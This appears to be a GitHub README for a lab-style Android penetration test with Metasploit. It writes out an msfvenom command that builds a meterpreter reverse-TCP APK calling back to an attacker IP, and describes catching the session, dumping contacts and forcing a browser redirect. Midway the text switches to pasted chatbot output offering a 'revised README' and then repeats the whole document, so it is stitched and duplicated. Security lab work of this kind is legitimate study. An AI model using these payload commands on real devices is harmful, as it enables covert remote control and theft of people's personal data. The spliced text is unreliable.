


# 🛡️ Mobile Application Security Testing (Android) — Metasploit Analysis  
**Author:** Aman Sharma  
**Role:** Penetration Tester (Simulation)  

-

## 📘 Overview  
This project demonstrates a hands-on simulation of a **Mobile Application Penetration Test** on an Android target. The focus was to simulate an attacker exploiting a compromised device to exfiltrate sensitive data and manipulate user activity.

The goal was to utilize the **Metasploit Framework** to showcase core offensive security skills, including payload generation, listener configuration, and post-exploitation activities, directly correlating findings to common mobile security vulnerabilities like **Insecure Data Storage** and **Weak Authentication**.

---

## 🧩 Project Phases

### **Phase 1 — Payload Generation and Listener Setup**
- Created a malicious Android Application Package (`.apk`) using **`msfvenom`** with a **`android/meterpreter/reverse_tcp`** payload.
- Configured the payload to call back to the Kali Linux attacker machine (`LHOST=192.168.66.133`, `LPORT=4444`).
- Setup the corresponding listener using the **`exploit/multi/handler`** module in Metasploit.

**Outcome:** Successfully generated the malicious APK (`viruss.apk`) and established a persistent C2 session upon the application's execution on the target Android emulator.

  **Payload Creation Terminal**
   
  
   
  *Command: msfvenom -p android/meterpreter/reverse_tcp LHOST=192.168.66.133 LPORT=4444 -o viruss.apk*

---

### **Phase 2 — Remote Session Establishment**
- Transferred and executed the payload (`viruss.apk`) on the target Android Emulator (NoxPlayer 7.0.6.2).
- Successfully caught the reverse connection on the Kali machine.

**Outcome:** A **Meterpreter Session 1** was opened from the target IP (`192.168.66.1`) to the attacker, granting remote shell access and control.

  **Meterpreter Session Established**
   
  
   
  *The reverse TCP handler catches the connection on LPORT 4444.*

---

### **Phase 3 — Post-Exploitation: Data Exfiltration (Contacts)**
- Executed the **`dump_contacts`** command to access and exfiltrate the device's PII.
- The command fetched the contact list from the target's database.

**Outcome:** Successfully extracted contact names and numbers, saving them locally to a text file. This demonstrated a critical **Insecure Data Storage** vulnerability.

  **Dump Contacts Command & Resulting Data**
   
  
  
   
  *Command: dump_contacts. Result: Contacts list saved, showing insecure storage.*

---

### **Phase 4 — Post-Exploitation: Activity Injection (Phishing)**
- Executed the **`activity_start`** command to manipulate the user interface on the target device.
- Forced the device to launch a web browser and navigate to a specific URL (`https://www.facebook.com`).

**Outcome:** Demonstrated the ability to launch phishing attacks or forced redirects, showcasing the risk associated with lack of **Intent Validation**.
- **Image Proof (Activity Command):** 
- **Image Proof (Target Activity):** 

---

## 🧰 Tools & Technologies
| Category | Tools Used |
|-----------|-------------|
| **Offensive Security** | Metasploit Framework, msfvenom |
| **Target Platform** | Android 7.1.2 (NoxPlayer Emulator) |
| **Attacker OS** | Kali Linux |
| **Vulnerabilities Assessed** | Insecure Data Storage, Weak Authentication, Unencrypted Traffic |

---

## 📈 Results Summary
| Phase | Focus | Result | Security Implication |
|-------|--------|--------|---------------------|
| 1 & 2 | Session Setup | Established reverse TCP C2 session | Full remote control of device |
| 3 | Data Dump | Extracted contact list PII | Insecure Data Storage |
| 4 | Activity Injection | Forced browser redirect (phishing vector) | Weak Authentication / Intent Validation |

---

## 🧠 Key Takeaways
- **Payload Generation:** Proficiency in creating targeted malicious applications using **`msfvenom`**.
- **Remote Access:** Understanding and maintaining a remote command and control session.
- **Data Exfiltration:** Demonstrating the ability to access and dump sensitive device data.
- **Risk Mitigation:** Reinforces the necessity of implementing **Multi-Factor Authentication (MFA)** and robust **Encryption** practices in mobile development.
- **Secure Development:** Highlighting the need for secure data storage (avoiding plaintext PII) and secure intent handling to prevent UI manipulation.

---

## 📁 Repository Contents
That makes perfect sense. You want to adjust the Repository Contents section because you don't have the final PDF report yet, and you want to embed a few key images directly into the README.md to make the project visually engaging right away.

I have updated the README.md content for you. I've embedded the three most critical images directly into the relevant phases:

Payload Creation (The setup)

Session Established (The compromise)

Data Dump (The result)

I also removed the mention of the PDF file from the Repository Contents and the header.

Here is the revised, ready-to-use README.md content:

Revised README.md File Content
Markdown

# 🛡️ Mobile Application Security Testing (Android) — Metasploit Analysis  
**Author:** Aman Sharma  
**Role:** Penetration Tester (Simulation)  

-

## 📘 Overview  
This project demonstrates a hands-on simulation of a **Mobile Application Penetration Test** on an Android target. The focus was to simulate an attacker exploiting a compromised device to exfiltrate sensitive data and manipulate user activity.

The goal was to utilize the **Metasploit Framework** to showcase core offensive security skills, including payload generation, listener configuration, and post-exploitation activities, directly correlating findings to common mobile security vulnerabilities like **Insecure Data Storage** and **Weak Authentication**.

---

## 🧩 Project Phases

### **Phase 1 — Payload Generation and Listener Setup**
- Created a malicious Android Application Package (`.apk`) using **`msfvenom`** with a **`android/meterpreter/reverse_tcp`** payload.
- Configured the payload to call back to the Kali Linux attacker machine (`LHOST=192.168.66.133`, `LPORT=4444`).
- Setup the corresponding listener using the **`exploit/multi/handler`** module in Metasploit.

**Outcome:** Successfully generated the malicious APK (`viruss.apk`) and established a persistent C2 session upon the application's execution on the target Android emulator.

  **Payload Creation Terminal**
   
  
   
  *Command: msfvenom -p android/meterpreter/reverse_tcp LHOST=192.168.66.133 LPORT=4444 -o viruss.apk*

---

### **Phase 2 — Remote Session Establishment**
- Transferred and executed the payload (`viruss.apk`) on the target Android Emulator (NoxPlayer 7.0.6.2).
- Successfully caught the reverse connection on the Kali machine.

**Outcome:** A **Meterpreter Session 1** was opened from the target IP (`192.168.66.1`) to the attacker, granting remote shell access and control.

  **Meterpreter Session Established**
   
  
   
  *The reverse TCP handler catches the connection on LPORT 4444.*

---

### **Phase 3 — Post-Exploitation: Data Exfiltration (Contacts)**
- Executed the **`dump_contacts`** command to access and exfiltrate the device's PII.
- The command fetched the contact list from the target's database.

**Outcome:** Successfully extracted contact names and numbers, saving them locally to a text file. This demonstrated a critical **Insecure Data Storage** vulnerability.

  **Dump Contacts Command & Resulting Data**
   
  
  
   
  *Command: dump_contacts. Result: Contacts list saved, showing insecure storage.*

---

### **Phase 4 — Post-Exploitation: Activity Injection (Phishing)**
- Executed the **`activity_start`** command to manipulate the user interface on the target device.
- Forced the device to launch a web browser and navigate to a specific URL (`https://www.facebook.com`).

**Outcome:** Demonstrated the ability to launch phishing attacks or forced redirects, showcasing the risk associated with lack of **Intent Validation**.
- **Image Proof (Activity Command):** 
- **Image Proof (Target Activity):** 

---

## 🧰 Tools & Technologies
| Category | Tools Used |
|-----------|-------------|
| **Offensive Security** | Metasploit Framework, msfvenom |
| **Target Platform** | Android 7.1.2 (NoxPlayer Emulator) |
| **Attacker OS** | Kali Linux |
| **Vulnerabilities Assessed** | Insecure Data Storage, Weak Authentication, Unencrypted Traffic |

---

## 📈 Results Summary
| Phase | Focus | Result | Security Implication |
|-------|--------|--------|---------------------|
| 1 & 2 | Session Setup | Established reverse TCP C2 session | Full remote control of device |
| 3 | Data Dump | Extracted contact list PII | Insecure Data Storage |
| 4 | Activity Injection | Forced browser redirect (phishing vector) | Weak Authentication / Intent Validation |

---

## 🧠 Key Takeaways
- **Payload Generation:** Proficiency in creating targeted malicious applications using **`msfvenom`**.
- **Remote Access:** Understanding and maintaining a remote command and control session.
- **Data Exfiltration:** Demonstrating the ability to access and dump sensitive device data.
- **Risk Mitigation:** Reinforces the necessity of implementing **Multi-Factor Authentication (MFA)** and robust **Encryption** practices in mobile development.
- **Secure Development:** Highlighting the need for secure data storage (avoiding plaintext PII) and secure intent handling to prevent UI manipulation.

---

## 📁 Repository Contents
📂 Android-Mobile-Penetration-Test/
┣ 🧾 README.md
┣ 📁 images/
## 💬 Project Status

  
  

---

### ✅ Final Notes
This project showcases a fundamental capability in offensive security and mobile security analysis. It highlights my hands-on experience in using professional tools for vulnerability assessment and provides a clear technical basis for drafting secure coding recommendations.
